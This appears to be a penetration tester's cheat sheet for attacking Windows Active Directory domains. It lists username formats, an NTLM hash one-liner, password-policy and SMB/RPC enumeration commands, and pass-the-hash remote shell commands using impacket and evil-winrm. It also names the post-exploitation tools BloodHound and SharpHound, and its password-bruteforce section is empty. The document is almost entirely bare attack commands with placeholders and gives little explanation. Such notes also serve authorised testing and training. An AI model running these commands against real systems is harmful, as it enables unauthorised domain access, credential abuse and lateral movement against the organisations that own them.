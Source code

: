 https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

# Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

`python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'`


# Password Policy
`polenum 'USERNAME':'PASSWORD'@IP`
`crackmapexec smb IP -u '' -p '' --pass-pol`


# Password Bruteforce


# Info
`Enum4linux <IP> 2>/dev/null`
`rpcclient -U 'USERNAME' -N <IP>`
`rpcclient -U 'USERNAME'%'PASSWORD' <IP>`
Domainname & info & SID
        	lsaquery
        	querydominfo
	OS information
		srvinfo
	Password Policy
        	getdompwinfo
	Printer info
      		enumprinters
	Users & get SID & SID lookup
	       	enumdomusers			(domain users & RIDs)
	       	querydispinfo			    (accounts & RIDs)
	       	queryuser RID			   (info domain user)
	Groups
	       	enumdomgroups		       (domain groups & RIDs)
	       	querygroup RID			  (info domain group)
	       	querygroupmem RID	     (user RID in group)
	       	enumalsgroups builtin	      (builtin groups)
      		enumalsgroups domain	   (local groups)
	SID
      		lsaenumsid			     (LSA SIDs)
	       	lookupnames USERNAMES   (SID lookup)
	       	lookupsids SID			    (name lookup)
	Shares
	       	netshareenumall
	       	netsharegetinfo


# Expoitation
### Check
`crackmapexec SERVICE IP -u "USER" -p PASS`
`crackmapexec SERVICE IP -u "USER" -H HASH`

### Shell
`impacket-wmiexec -hashes 'HASH' USER@IP`
`impacket-psexec -hashes 'HASH' USER@IP`
`evil-winrm -i IP -u USER -H "HASH"`
`evil-winrm -i IP -u USER -p "PASS"`

# Post-exploitation
`Bloodhound`
`SharpHound`